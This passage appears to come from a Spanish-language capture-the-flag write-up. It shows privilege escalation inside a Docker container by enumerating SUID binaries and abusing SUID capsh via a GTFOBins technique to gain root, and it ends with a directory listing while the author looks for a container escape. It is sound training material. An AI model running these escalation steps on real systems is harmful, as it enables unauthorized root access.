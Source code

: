Realizamos una búsqueda de binarios con permisos `SUID` para identificar posibles puntos de escalada de privilegios.

```bash
www-data@50bca5e748b0:/var/www/html$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

El binario `capsh` llama especialmente la atención. Al realizar una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid), hemos encontrado una forma de elevar nuestros privilegios y convertirnos en root.

![capsh](capsh.png)

Hemos ejecutado los comandos y ahora somos el usuario root en el contenedor.

```bash
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/var/www/html# whoami
root
```

Ahora necesitamos buscar una forma de escapar de Docker y obtener acceso como root en la máquina real.
En el directorio raíz (`/`) encontramos un script llamado `entrypoint.sh` que parece ser sospechoso.

```bash
root@50bca5e748b0:/var/www/html# cd /
root@50bca5e748b0:/# ls -al
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Jun 22 00:42 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
drwxr-xr-x   1 root root 4096 Mar 21 10:49 etc
drwxr-xr-x   2 root root 4096 Mar 22 13:21 home
drwxr-xr-x   1 root root 4096 Nov 15  2022 lib
drwxr-xr-x   2 root root 4096 Mar 22 13:21 lib64
drwxr-xr-x   2 root root 4096 Mar 22 13:21 media
drwxr-xr-x   2 root root 4096 Mar 22 13:21 mnt
drwxr-xr-x   2 root root 4096 Mar 22 13:21 opt
dr-xr-xr-x 275 root root    0 Jun 22 00:42 proc
drwx------   1 root root 4096 Mar 21 10:50 root
drwxr-xr-x   1 root root 4096 Nov 15  2022 run
drwxr-xr-x   1 root root 4096 Jan  9 09:30 sbin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 srv
dr-xr-xr-x  13 root root    0 Jun 22 00:42 sys
drwxrwxrwt   1 root root 4096 Jun 22 00:43 tmp
drwxr-xr-x   1 root root 4096 Nov 14  2022 usr
drwxr-xr-x   1 root root 4096 Nov 15  2022 var
```
